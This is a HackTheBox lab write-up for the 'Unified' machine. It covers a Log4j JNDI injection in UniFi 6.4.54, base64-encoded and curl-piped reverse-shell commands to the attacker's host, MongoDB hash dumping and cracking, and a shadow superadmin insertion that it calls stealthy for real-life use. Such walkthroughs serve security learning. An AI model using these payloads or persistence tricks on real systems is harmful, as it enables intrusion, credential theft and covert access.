


---
tags:
  - Linux
  - HTTP
  - CVE
  - JNDI Injection
  - MongoDB
  - Shadow Administrator
---

... is a simple HTB machine where a `https` service has an outdated version of the application `UniFi`. A `CVE` allows for remote code execution using `JNDI` injection. Using that `RCE`, the database can be modified to add a shadow administrator, which can then access the UI back-end where `SSH` credentials are stored to the `root` user.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  ssl/nagios-nsca Nagios NSCA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port `8080` a standard `http` server is running, which is being powered by `Apache Tomcat`. Port `8443` is an alternative standard port for `443`, which is `https` by default. The service on port `6789` hasn't been identified by `nmap`, which is why it needs further investigation.

After visiting both ports via `firefox`, both lead to the same resource (port `8080` redirects me to `8443`) which shows a logo with the word `UniFi`, with the version seen below (`6.4.54`). I've also tried interacting with port `6789`, but it doesn't reply.

### Initial Exploitation
After googling `UniFi 6.4.54` i stumble upon a [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) which explains that this version has the vulnerable parameter `"remember"` in the POST request for the login. It is possible to use the Java Naming and Directory Interface (`JNDI`) API in this parameter.

What does that mean? [This blog](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) explains `JNDI` injections pretty well. To sum it up, this Java API allows users to reference Java objects using a String. The referencing can happen over `RMI`, `LDAP`, or `DNS`. If an unknown object is referenced, the Java byte-code is fetched from the target endpoint.

So, the attack strategy is to first start a malicious `LDAP` server. The next step is to tell the `UniFi` service that we want to load an object called `EvilObject` from our server using the `"remember"` parameter. The `UniFi` service does not have the byte-code to this `EvilObject`, which is why it fetches it from our endpoint and executes it. The byte-code our malicious server offers ideally leads to operating-system code execution on the machine which is hosting the `UniFi` service.

It would be possible to implement this `LDAP` server in Java by hand but luckily, someone has already done that. The project `rogue-jndi` found on [this github](https://github.com/veracode-research/rogue-jndi). After cloning it using `git clone`, i use the CLI for `maven` to create the `JAR` file which i can use to start the server (using `mvn package`). After using `mvn` to `package` the `JAR`, the file can be found in `./rogue-jndi/target/RogueJndi-1.1.jar`. The server can then be started using this command:
```bash
java -jar RogueJndi-1.1.jar -c "curl http://<my-ip>:1337" -n "0.0.0.0"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -jar: execute the Java code found in the specified JAR file
# -c: The custom object which gets served executes the following OS command on the target.
# -n: hostname. 0.0.0.0 means accept connections from anywhere. Leaving this option empty makes it 127.0.0.1 by default, which is only reachable by the local machine.
```

For the command i have used `curl http://<my-ip>:1337` to find out if the OS command gets executed. I start a simple web server using `python3 -m http.server 1337`. If i send the payload and the target constructs the custom object served by `rogue-jndi`, my `python` web server should receive a request using the command provided in the option `-c`.

With all these things in place, the last step is to send the payload to the vulnerable `UniFi` web-app. To do so, i have intercepted the POST request using `burpsuite`. In the Intruder tab, i change the `JSON` form of the POST as follows:
```json
{ 
	"username":"user",
	"password":"pass",
	"remember":"${jndi:ldap://<my-ip>:1389/o=tomcat}",
	"strict":true
}
```
This sends a `LDAP-JNDI` request to my `rogue-jndi` server, where it asks for the object `o=tomcat` (this is `rogue-jndi` specific. We know that `Tomcat` is the back-end thanks to `nmap -sC`). And this is how it looks all together:


This image shows that the command execution worked! 

At this point i got a bit stuck, as the typical reverse shell command in the command (`-c`) option did not work:
```bash
```bash
bash -c "/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# bash -c: wraps the following command so that it explicitly gets executed by bash, not the current shell
# /bin/bash -i: launch the bash binary in interactive mode
# >&: redirect standard output and standard error to:
# /dev/tcp/<IP>/port: when the bash binary opens this path, it creates a TCP connection!
# 0>&1: STDIN (0) gets redirected (>) to where STDOUT (1) is pointing
```

The original article also had a [github page](https://github.com/puzzlepeaches/Log4jUnifi) in which a python script was used to automate the exploitation of this vulnerability. Within the `exploit.py`, the command option `-c` of the `rogue-jndi` call, he used the brace expansion of the `bash`. So, my previous command:
```bash
-c "curl http://<my-ip>:1337"
```
would be instead used like this:
```bash
-c "bash -c {curl,http://<my-ip>:1337}"
```
This is not a viable command in my own bash, but it works just like the previous command when the `UniFi` service executes it. It may be due to certain restrictions in the Java runtime environment, or by server-side filters which aim to stop code execution.

The payload of the original article used `base64` to encode the reverse shell command:
```bash
echo 'bash -c "/bin/bash -i >& /dev/tcp/<my-ip>/1337 0>&1"' | base64 -w 0
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w 0: disable line wrapping, so no newline characters show up
```

And then inside of the command which is set up within the `rogue-jndi` server, it decodes the `base64` and pipes it into the `bash` for execution:
```bash
-c "bash -c {echo,YmF...}|{base64,-d}|{/bin/bash,-i}"
```
After setting up this command, a listener can be set up like this:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

And finally, after coercing the `UniFi` server to load and execute the custom object which executes the command above, a reverse shell is received and the `/home/michael/user.txt` can be read.

After some testing, i found out that the reverse shell command can also be stored in a file called `revshell.sh`. The executed command can then also be used to `curl` this file (from my `python3 -m http.server 1338`) and then piped into the `bash` for execution. The full `-c` command would then look like this:
```bash
-c "bash -c {curl,http://<my-ip>:1338/revshell.sh}|{/bin/bash,-i}"
```
This has proven to also be a viable way of receiving a reverse shell.

### Lateral Movement
As the user `unifi` is only a service account, it has very limited capabilities on the system. An actual user account within the `/home` directory is much more preferable.
The user `michael` has a home directory, which is why i assumed that i need his account to gain `ssh` access to the machine. `ssh` access is always better than a reverse shell, as it is fully interactive. It is always possible to upgrade the reverse shell with a [neat trick](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but `ssh` access to an actual account is always preferable.

To achieve this goal, i could either steal the `ssh private key` in the `/home/<user>/.ssh` directory (the one without the `.pub` suffix) to authenticate using that key, or i could try to find a password stored in a configuration file which was reused for the system password. As i cant access `michael`'s `.ssh` directory using the `unifi` user, i look for configuration files.

A quick google search reveals that the configuration file for `UniFi` is located at `/usr/lib/unifi/data/system.properties`, but it didn't hold any credentials. What i did find, was the directory `/usr/lib/unifi/data/db`. Within that, i saw a file called `mongod.lock`. It doesn't hold any info, but it tells me that a `MongoDB` is used to store the credentials, which is why i issue the command `mongo` to try and connect to it. 

That didn't work, as the connection gets refused on `mongodb://127.0.0.1:27017`. Maybe it is running on a different port. To find out which port is running `MongoDB`, i list all running processes and use `grep` to filter out the ones containing the string `mongo`:
```bash
ps aux | grep mongo
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# ps a: show processes for all users, not only current user
# ps u: display output in user-oriented format (USER,PID,...)
# ps x: include background processes
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# grep: filter STDIN for a word
```

I find a process which has run the original `mongod` command using the flag `--port 27117`. So i try to connect to that port instead using:
```bash
mongo localhost:27117
```
This puts me into the interactive `mongo` shell, where i can issue `mongo`-specific commands. Using the info from the challenge `Mongod`, i list the databases using `show dbs`:
```bash
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB
```
Below is a recap of the commands one may use when interacting with a `MongoDB`:

- `show dbs`: List all available data-bases
- `show collections`: List all collections (similar to tables)
- `db.<collection-name>.find()`: print values from a collection

Within the `ace` data-base, i find the collection `admin`, which contains the names and the hashes of 5 users:
```bash
administrator:$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
michael:$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0
Seamus:$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.
warren:$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ.
james:$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1
```
`john` has identified these hashes to be made using the algorithm `sha512crypt`. Which is why i can use `hashcat` to attempt to crack these passwords (mode `1800` is `sha512crypt`):
```bash
hashcat -m 1800 hash.txt ./rockyou.txt
```
This hash algorithm takes a while to compute the hash, which is why (with my hardware at least) the cracking of this hash using the `rockyou.txt` approximately takes 30 minutes. After waiting for a while for the hash of `michael`, i stop the cracking attempt as HTB CTFs usually do not require such long cracking times. With a proper setup, a true brute-force cracking attempt (all words, no wordlist) can be made though.

As this database is running and (presumably) used by the `UniFi` service, we can try to modify the `admin` collection to add a new user which we can then use to access the back-end of `UniFi`. To let this user be recognized by the service, we must imitate the entries of the other users. They look like this:
```json
{ 
	"_id" : ObjectId("61ce4ce8fbce5e00116f4251"), 
	"email" : "name@unified.htb", 
	"name" : "name", 
	"x_shadow" : "$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.", 
	"requires_new_password" : false, 
	"time_created" : NumberLong(1640910056), 
	"last_site_name" : "default" 
}
```
We need to first create a hash which will be inserted as the value of the `"x_shadow"` part. The utility `mkpasswd` can be used for this:
```bash
mkpasswd -m sha-512 password123
```
This gives us the hash we can use. To add the new user, we need to connect to the database again and modify the `admin` collection within the `ace` database using the following `mongo` command (the `_id` is optional):
 ```bash
 db.admin.insert({"email":"attacker@unified.htb","name":"attacker","x_shadow":"$6$S1T0uYEF.r9PmihP$UR1iCN3Akhpp8U5GfNREIlb8JiA8i3jWYrcPNmUc/QL9hhqQDQcf8hlU5MWIcN69bi8sWibIJtJ5J9091sL101","requires_new_password":false,"time_created":NumberLong(1640910161),"last_site_name":"default", "isSuperAdmin":true})
 ```
You can replace the `x_shadow` value if you desire another password.

This alone does not give you access to the web page (it messes the page up if you try to access it), as you need to also modify the `privilege` collection to state what privileges the new user has! Entries of that collection look like this
```json
{ 
	"_id" : ObjectId("61ce4ce8fbce5e00116f4251"), 
	"admin_id" : "61ce278f46e0fb0012d47ee4",
	"site_id" : "61ce269d46e0fb0012d47ec5",
	"permissions" : [ ], "role" : "admin"
}
```
The `admin_id` is the value of the `_id` parameter of a user found in the `admin` collection, and the `site_id` is the value of a website found in the `site` collection (there are 2 sites!!!). To add our newly created account to the `privilege` collection, the corresponding `_id` which was automatically generated must be copied from the `admin` collection. Using that, the following `mongo` command adds the new user `attacker` to the `privilege` collection:
 ```bash
 db.privilege.insert({"admin_id":"<attackers-ID>","site_id":"<sites-ID>","permissions":[],"role":"admin"})
 ```
Make sure to execute this command twice for both available sites in the `site` collection!

After inserting all the values into the `ace` database (edited collections `admin` and `privilege`), it is now possible to login to the application using the new credentials `attacker:password123`. The hint `Not seeing everything you need? Go to classic dashboard` show up. And indeed, i am not seeing everything, so i click the blue link. In the settings, i disable the button `New User Interface`. Using the old interface, i navigate to `Settings > Site > Device Authentication`, where i find the `SSH` password for the `root` user! I can use `ssh root@$IP` to login and read the `/root/root.txt` flag!

#### Alternative way
Alternatively, you can simply edit the password of the existing `administrator` account using this `mongo` command:
```bash
db.admin.update({"_id": <admins-ID>},{$set:{"x_shadow":"$6$S1T0uYEF.r9PmihP$UR1iCN3Akhpp8U5GfNREIlb8JiA8i3jWYrcPNmUc/QL9hhqQDQcf8hlU5MWIcN69bi8sWibIJtJ5J9091sL101"}})
```
This is pretty convenient, but a no-go in real-life scenarios, as the `administrator` will panic if he can't log in anymore. A shadow admin account is much stealthier.

### Summary

Below is a visualized summary of the exploitation steps used in this machine.



Alternatively, the password of the existing Admin may be altered instead of adding a shadow admin.